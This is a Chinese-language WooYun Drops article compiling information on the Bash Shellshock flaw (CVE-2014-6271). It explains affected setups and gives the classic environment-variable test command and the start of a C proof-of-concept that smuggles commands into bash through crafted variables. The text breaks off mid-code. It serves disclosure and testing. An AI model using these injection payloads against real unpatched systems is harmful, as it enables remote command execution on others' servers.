 # CVE-2014-6271 资料汇总 ![](img/img1_u143_png.jpg)

2014/09/25 18:12 | [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")![](img/img1_u56_png.jpg)   | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章")  | 占个座先  | 捐赠作者

author: shawn

## 0x00 什么是 BASH

* * *

Bourne Again Shell(简称 BASH）是在 GNU/Linux 上最流行的 SHELL 实现，于 1980 年诞生，经过了几十年的进化从一个简单的终端命令行解释器演变成了和 GNU 系统深 度整合的多功能接口。

## 0x01 CVE-2014-6271

* * *

法国 GNU/Linux 爱好者 Stéphane Chazelas 于 2014 年 9 月中旬发现了著名的 SHELL 实)的一个漏洞，你可以通过构造环境变量的值来执行你想要执行的脚本代码，据报道称，这个漏洞能影响众多的运行在 GNU/Linux 上的会跟 BASH 交互的应用程序，包括:

> 在 sshd 配置中使用了 ForceCommand 用以限制远程用户执行命令，这个漏洞可以绕过限制去执行任何命令。一些 Git 和 Subversion 部署环境的限制 Shell 也会出现类似情况，OpenSSH 通常用法没有问题。
> 
> Apache 服务器使用 mod_cgi 或者 mod_cgid，如果 CGI 脚本在 BASH 或者运行在子 SHELL 里都会受影响。子 Shell 中使用 C 的 system/popen，Python 中使用 os.system/os.popen，PHP 中使用 system/exec(CGI 模式)和 Perl 中使用 open/system 的情况都会受此漏洞影响。
> 
> PHP 脚本执行在 mod_php 不会受影响。 DHCP 客户端调用 shell 脚本接收远程恶意服务器的环境变量参数值的情况会被此漏洞利用。
> 
> 守护进程和 SUID 程序在环境变量设置的环境下执行 SHELL 脚本也可能受到影响。
> 
> 任何其他程序执行 SHELL 脚本时用 BASH 作为解释器都可能受影响。Shell 脚本不导出的情况下不会受影响。

OpenSSH, Apache2, php, dhcp client 甚至带 SUID 的程序。

### 1，本地 SHELL 环境中测试是否有漏洞：

```
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test" 
```

如果存在漏洞会打印"vulnerable"。

### 2，C 程序：

```
-----------------------------------------------------------------------------
/* CVE-2014-6271 + aliases with slashes PoC - je [at] clevcode [dot] org */
#include <unistd.h>
#include <stdio.h>

int main()
{
    char *envp[] = {
        "PATH=/bin:/usr/bin",
        "/usr/bin/id=() { "
        "echo pwn me twice, shame on me; }; "
        "echo pwn me once, shame on you",
        NULL
    };
    char *argv[] = { "/bin/bash", NULL };

    execve(argv[0], argv, envp);
    perror("execve");
    return 1;
```